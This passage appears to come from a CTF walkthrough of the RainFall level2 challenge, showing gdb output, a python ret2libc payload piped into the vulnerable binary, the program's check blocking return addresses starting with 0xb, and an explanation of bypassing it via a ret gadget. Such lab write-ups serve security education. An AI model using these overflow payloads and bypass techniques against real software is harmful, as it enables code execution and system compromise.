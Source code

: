 ```sh
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:	 "/bin/sh"
(gdb)
```

### _Okay, we have the address of the `/bin/sh` string !_

Now we have this payload :

```sh
python -c 'print "A" * 80 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat
```

## 5. Overriding the protection

- At this point, the `ret2libc` attack is ready, hear's what happens if we give the payload to the program :

```sh
level2@RainFall:~$ (python -c 'print "A" * 80 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat) | ./level2
(0xb7e6b060)
[STANDARD INPUT OPEN]
level2@RainFall:~$
```

This address is the address of the `system` function. In the `p` function, there is a check on the return address stored in the `eip` register. This check is done using [this lines](https://github.com/Nimpoo/rainfall/tree/main/level2/source/p.c) :

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000)
{
  printf("(%p)\n", unaff_retaddr);
  exit(1);
}
```

- `unaff_retaddr` : C'est l'adresse de retour (retour à l'adresse `eip`) après l'exécution de la fonction `p`
- The program checks if this address falls within a specific range of addresses, those starting with `0xb`. If it does, it means that the return address points to a sensitive area, likely within the program's memory space (which could indicate an exploitation attempt), and the program immediately terminates with `exit(1)`

In our case, the address of the `system()` function starts with `0xb` (which is common in `libc` addresses), so this check fails and the attack is blocked.

**How can we bypass this condition ?**

To bypass this check, we need to ensure that the program does not detect that the return address starts with `0xb`. The idea is to pass a return address that does not trigger this condition, i.e., an address that does not start with `0xb`. One simple way to do this is to redirect execution to a `ret` instruction already present in the program. The `ret` instruction allows execution to continue, and we can use it to "skip" the security check. And we can use the address of the `main` function to do that.
